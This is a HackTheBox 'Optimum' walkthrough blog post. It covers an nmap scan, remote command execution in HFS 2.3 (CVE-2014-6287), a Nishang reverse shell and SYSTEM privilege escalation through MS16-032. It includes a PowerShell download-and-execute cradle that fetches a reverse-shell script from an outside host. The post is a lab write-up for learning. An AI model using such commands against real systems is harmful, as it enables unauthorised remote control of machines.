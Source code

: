 ```yaml
---
weight: 1
title: "HackTheBox - Optimum Writeup"
date: 2022-06-17
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["CVE-2014-6287", "CVE-2016-0099", "MS16-032", "rce", "reverse-powershell", "httpfileserver", "HFS", "empire-project", "windows-sysnative", "powershell-arc"]
categories: ["HacktheBox"]

lightgallery: true
toc:
  auto: false
---
```


## Nmap
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

## HFS (HttpFileServer)
{{< admonition tip "Description" >}}
**HTTP File Server**, otherwise known as `HFS`, is a free web server specifically designed for publishing and sharing files. </br>
It's different from classic file sharing because it uses web technology to be more compatible with today's Internet. _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_
{{< /admonition >}}

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![HFS webpage](hfs-main-page.png "HFS webpage")

### CVE-2014-6287
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

{{< admonition tip "CVE description" >}}
The `findMacroMarker` function in `parserLib.pas` in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a `%00` sequence in a search action.
{{< /admonition >}}

### Burpsuite
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![ping myself](burpsuite-search-ping.png "ping myself")

![receiving the ping request](tcpdump-ping-tun0.png "receiving the ping request")

## Nishang: Invoke-PowerShellTcp.ps1

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![serve python server](python3-server-and-nc-listening.png "serve python server")

![execute reverse shell](burpsuite-with-powershell-reverse-shell.png "execute reverse shell")

![shell as kostas](nc-catch-the-shell.png "shell as kostas")

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![systeminfo](run-the-systeminfo-command.png "systeminfo")

### MS16-032 : CVE-2016-0099

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### EmpireProject: Invoke-MS16032.ps1

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

{{< admonition tip "EmpireProject" >}}
Is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. </br>
It is the merge of the previous PowerShell Empire and Python EmPyre projects. </br>
_resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_
{{< /admonition >}}

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![download the exploit](download-ms16032-wget.png "download the exploit")

![exploit example](edit-the-exploit-file-ms16032.png "exploit example")

![edit the exploit](put-at-the-last-line.png "edit the exploit")

### Windows: sysnative

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![exploit compatibility](example-tested-exploit.png "exploit compatibility")

![check powershell architecture](check-the-arc-of-powershell-32-bit.png "check powershell architecture")

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![using 64bit powershell](check-the-arc-of-powershell-64-bit.png "using 64bit powershell")

## Windows: Privilege Escalation

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![shell as nt authority\system](last-image.png "shell as nt authority\system")